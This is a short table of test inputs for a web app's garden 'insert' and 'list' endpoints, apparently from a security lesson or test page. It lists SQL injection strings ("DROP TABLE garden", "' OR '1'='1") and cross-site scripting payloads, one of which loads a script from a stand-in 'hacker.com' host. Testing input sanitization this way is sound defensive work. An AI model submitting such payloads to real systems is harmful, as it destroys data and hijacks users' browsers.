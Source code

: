 | | `/{usr}/insert` | `req.body.veggie` | `/{usr}/list` |
| `''); DROP TABLE garden` |
| `'; DROP TABLE garden` |
| `); DROP TABLE garden` |
| `' OR '1'='1` |
| `<script src="http://hacker.com/bad.js">`<br>`</script>` |
| `"; alert('xss');` |
| `</h1> alert('xss');` |
| `</li><script>alert('xss');</script>` |
{:.pretty style="white-space: nowrap"}

